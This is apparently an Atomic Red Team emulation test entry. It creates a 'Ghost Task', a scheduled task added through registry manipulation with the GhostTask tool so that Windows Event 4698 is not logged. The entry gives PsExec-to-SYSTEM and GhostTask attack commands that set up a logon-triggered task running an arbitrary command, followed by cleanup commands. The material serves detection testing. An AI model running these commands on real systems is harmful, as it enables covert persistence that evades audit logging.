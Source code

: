 



<br/>
<br/>

## Atomic Test #10 - Scheduled Task ("Ghost Task") via Registry Key Manipulation
Create a scheduled task through manipulation of registry keys. This procedure is implemented using the [GhostTask](https://github.com/netero1010/GhostTask) utility. By manipulating registry keys under HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree, the tool creates user-specified scheduled tasks without a corresponding Windows Event 4698, which is logged when scheduled tasks are created through conventional means.
This requires a download of the GhostTask binary, which must be run as NT Authority\SYSTEM. Upon successful execution of this test, a scheduled task will be set to run at logon which launches notepad.exe or runs a user-specified command.
For further exploration of this procedure and guidance for hunting and detection, see [Hunting G-G-G-GhostTasks!](https://medium.com/p/154b50ab6a78).

**Supported Platforms:** Windows


**auto_generated_guid:** 704333ca-cc12-4bcf-9916-101844881f54





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| task_name | Name of the newly-added task | string | lilghostie|
| task_command | Command you want the task to execute | string | notepad.exe|
| target | System where the task should run | string | localhost|
| user_name | Username to authenticate with, such as ATOMICDOMAIN&#92;AtomicAdmin | string | $env:USERDOMAIN + '&#92;' + $env:USERNAME|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" \\#{target} -accepteula -s "cmd.exe"
"PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe" \\#{target} add #{task_name} "cmd.exe" "/c #{task_command}" #{user_name} logon
```

#### Cleanup Commands:
```cmd
"PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" \\#{target} -accepteula -s "cmd.exe"
"PathToAtomicsFolder\..\ExternalPayloads\GhostTask.exe" \\#{target} delete #{task_name} > nul
```


